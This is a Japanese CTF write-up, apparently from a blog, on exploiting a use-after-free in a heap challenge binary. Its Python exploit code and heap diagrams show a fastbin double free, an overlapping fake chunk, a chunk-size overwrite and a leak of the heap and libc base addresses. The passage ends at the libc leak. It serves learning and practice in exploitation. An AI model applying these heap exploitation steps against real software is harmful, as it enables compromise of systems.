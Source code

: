 PIEが有効になっているため、とりあえずLIBCのアドレスを把握する必要があります。
この前に見つけたUAF脆弱性を使えば以下の情報を把握できます：

(1) 開放済みのfast chunk(fastbin)を読み込むとHEAP領域の先頭アドレスがリークされる。
(2) 開放済みのsmall chunk(unsorted bin)を読み込むとLIBC内の`MAIN_ARENA`のアドレスがリークされる。

そうしたらsmall chunkを一回確保して開放すれば良さそう。でも、サイズの制限により`0x78`バイト以上な領域を確保できないので無理。

small chunkを確保できないけど、もし既に確保しているチャンクのサイズを書き換えれば具体的に同じでしょう？
あるチャンクのサイズを`0x80`以上にしたら、開放するときunsorted binに追加される（そして冒頭にMAIN_ARENAの位置が書き込まれます）。
チャンク改竄という技術を使えば行けそうです。頑張りましょう！٩( 'ω' )و 

チャンク改竄を行うには、先ずHEAP領域の先頭アドレスが必要です。
```python
a = create_deet(0x20, "")
b = create_deet(0x20, "")
delete_deet(a)
delete_deet(b)
# fastbins[0x20]: b -> a -> 0

HEAP_BASE = u64(observe_deet(b)[:8])
print "[*] ヒープ先頭アドレス = %s" % (hex(HEAP_BASE))
```

次、偽チャンクが返ってくるようにさせましょう。ただし、fast chunkを再び確保する際、残っている元サイズが確認されるため、
チャンク改竄を行うとき、有効なサイズにしておかないといけません。なので以下`0x31`に設定しておきます。
```python
delete_deet(a)
# fastbins[0x20]: a -> b -> a -> 0

c = create_deet(0x20, p64(HEAP_BASE + 0x10) + p64(0x31)) 
# fastbins[0x20]: b -> a -> 偽チャンク -> ???

d = create_deet(0x20, "")
e = create_deet(0x20, "")
# fastbins[0x20]: 偽チャンク -> ???
```

チャンク改竄って頭の中で想像するのが難しいので（私にとっては）、こちらはHEAPの状況。
```
| xxxxxxxxxxxxxx00 | 0x0000000000000000  0x0000000000000031 | a, c, eのヘッダー
| xxxxxxxxxxxxxx10 | 0x00005604cf3a200a  0x0000000000000031 | a, c, eのデータ
| xxxxxxxxxxxxxx20 | 0x000000000000000a  0x0000000000000000 | a, c, eのデータ --+
| xxxxxxxxxxxxxx30 | 0x0000000000000000  0x0000000000000031 | b, dのヘッダー　　 | 偽チャンクの範囲
| xxxxxxxxxxxxxx40 | 0x00005604cf3a200a  0x0000000000000000 | b, dのデータ    --+
| xxxxxxxxxxxxxx50 | 0x0000000000000000  0x0000000000000000 | b, dのデータ　
| xxxxxxxxxxxxxx60 | 0x0000000000000000  0x0000000000020fa1 | 以降、トップチャンク
```

ご覧のように、偽チャンクのデータが`d`のヘッダーとオーバーラップしています。したがって偽チャンクを書き込めば`d`チャンクのサイズを変更できます。
```python
f = create_deet(0x20, p64(0x00) * 3 + p64(0x91))
```

なう、`d`のサイズが`0x91`になっていますが、このまま開放してしまえばプログラムが破壊されます。何故なら、次のチャンク（`0x90+0x8=0x98`バイト後）の`prev_inuse`ビットが設定されていないため、`double free or corruption (!prev)`が検知されます。なので正しいサイズも入れておかないといけません。
```python
g = create_deet(0x50, "\x00" * 0x50)
h = create_deet(0x50, "\x00" * 0x48 + p64(0x01))
delete_deet(d)

MAIN_ARENA = u64(observe_deet(d)[:8])
LIBC_BASE = MAIN_ARENA - 0x3c4b78
print "[*] LIBC先頭アドレス = %s" % (hex(LIBC_BASE))
```

